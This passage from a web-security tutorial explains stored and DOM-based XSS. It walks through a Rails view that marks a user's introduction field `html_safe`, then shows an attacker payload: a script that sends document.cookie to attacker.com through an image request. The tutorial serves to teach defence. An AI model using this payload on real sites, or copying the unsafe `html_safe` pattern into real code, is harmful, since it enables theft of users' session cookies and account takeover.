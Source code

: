 A Stored XSS vulnerability arises when data submitted by one user (the attacker) is stored in the application and is then displayed to other users without being sanitized properly.

**DOM-based XSS**

DOM-based XSS vulnerabilities arise when client-side Javascript extracts data contained in a request&#8217;s URL or the response&#8217;s HTML (accessible via the DOM) to dynamically update the page&#8217;s contents. Exploiting a DOM-based XSS vulnerability involves crafting a request URL containing embedded Javascript such that the client-side Javascript injects the malicious Javascript into the DOM and causes its execution.

[Read this OWASP page for more info on the three types of XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting)

For the purposes of this article, we will focus on Stored XSS.

<div style="background: #dff7fe; padding: 15px;">
</div>

## How to attack a Stored XSS Vulnerability?

Let&#8217;s consider an example to illustrate how such a vulnerability can arise and how an attacker can take advantage of it.

### A Vulnerable Rails app

Consider a typical Rails app, with users and admins. A user record has three fields &#8211; `name`, `email` and `introduction`. Each user has a profile page where this information is listed. Admins in the system, in addition to being able to access these profile pages, also have access to a `/users` page which consolidates all the users&#8217; information. The view code for this page starts out looking something like this:

    <% #This is accessible only to admins %>
    <% User.all.each do |user| %>
      <%= user.name %>
      <%= user.email %>
      <%= user.introduction %>
    <% end %>
    

Now let&#8217;s say we want to give our users the ability to customize their introductions with HTML. So instead of typing in `"I'm awesome!!"` in the introduction field, they can type in `"I'm <strong>awesome!!</strong>"`. To accomplish this in our view, we make use of the `html_safe` helper and change `user.introduction` to `user.introduction.html_safe`. Now, if a user submits text with HTML in it, our view will render the HTML.

### Enter Attacker

An attacker can take advantage of this HTML rendering and submit something like this in the introduction field:

    I am awesome!!
    <script>
      var i = new Image;
      i.src = "http://attacker.com/" + document.cookie;
    </script>
    